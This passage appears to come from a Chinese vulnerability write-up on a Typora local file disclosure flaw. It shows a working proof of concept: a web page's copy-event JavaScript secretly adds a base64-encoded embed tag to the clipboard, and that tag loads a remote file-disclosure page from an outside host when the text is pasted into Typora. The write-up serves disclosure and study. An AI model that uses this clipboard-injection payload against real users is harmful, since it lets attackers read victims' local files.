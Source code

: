 #### 利用方式2 编辑网页上的copy事件

 攻击者可以手工创建恶意网页，并使用以下代码挂接 `copy` 事件： 

```js
<script>
    document.addEventListener('copy',e=>{
        e.preventDefault();
        //&#x3c;embed style="height:0;" src="https://o.cal1.cn/cab3e723540d9948-typora-167-poc/local-file-disclosure.html">&#x0d;&#x0d;
        let payload = atob('JiN4M2M7ZW1iZWQgc3R5bGU9ImhlaWdodDowOyIgc3JjPSJodHRwczovL28uY2FsMS5jbi9jYWIzZTcyMzU0MGQ5OTQ4LXR5cG9yYS0xNjctcG9jL2xvY2FsLWZpbGUtZGlzY2xvc3VyZS5odG1sIj4mI3gwZDsmI3gwZDs=');
        e.clipboardData.setData('text/markhtml', `\x20\x0d\x0a\x0d\x0a` + payload + window.getSelection());
        console.log(payload + window.getSelection())
    })
</script>
```

 当受害者从此页面复制文本时，有效负载将添加到复制的内容中，并在粘贴到 Typora 时触发。 

 ```
 
 
 <embed style="height:0;" src="https://o.cal1.cn/cab3e723540d9948-typora-167-poc/local-file-disclosure.html">


 ```

相当于在Typora中内嵌了上面的内容

![](CVE-2023-2317/CVE-2023-2971_03.Copy-and-Paste.gif)
